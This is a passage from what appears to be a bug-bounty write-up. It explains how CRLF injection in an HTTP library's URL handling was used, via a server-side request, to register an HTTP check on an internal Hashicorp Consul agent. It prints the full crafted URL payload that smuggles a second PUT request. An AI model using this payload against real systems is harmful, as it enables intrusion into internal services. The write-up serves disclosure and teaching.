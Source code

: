 ![POST / PUT](/assets/article_images/2017/POST_PUT.png){: .center-image }

Success! The HTTP library appeared to be incorrectly processing the `\r\n` characters in the URL HTTP GET parameters, and injecting additional HTTP requests! As a result, it was confirmed possible to construct arbitrary HTTP requests after the initial hard-coded HTTP POST using only the URL.

### Putting it all together.

Now that I had a method to perform arbitrary HTTP requests against a given server I could finally confirm whether the TCP 8500 listener was indeed an Hashicorp Consul agent, and whether it had been ACL'd appropriately.

In order to test this, I constructed a URL which used `\r\n` characters to terminate the original HTTP POST with a `Content-Length` of `1` (with a payload of `1`) and then perform a 'follow-on' request containing an HTTP PUT request to create an 'HTTP check' inside of the Consul agent. The constructed URL looked something like the following:

```
http://127.0.0.1:8500/? HTTP/1.1\r\nConnection: keep-alive\r\nHost: example.org\r\nContent-Length: 1\r\n\r\n1\r\nPUT /v1/agent/check/register HTTP/1.1\r\nHost: example.org\r\nContent-Length: 121\r\n\r\n{"id": "BugcrowdDarkarnium","name": "BugcrowdDarkarnium","http": "http://some-server/","interval": "60s","timeout": "5s"}
```

After submission of this payload in the URL field I had to wait for up to a minute to see whether the 'check' would fire, as the interval was configured to 60 seconds to prevent loading up the server with unnecessary HTTP requests.
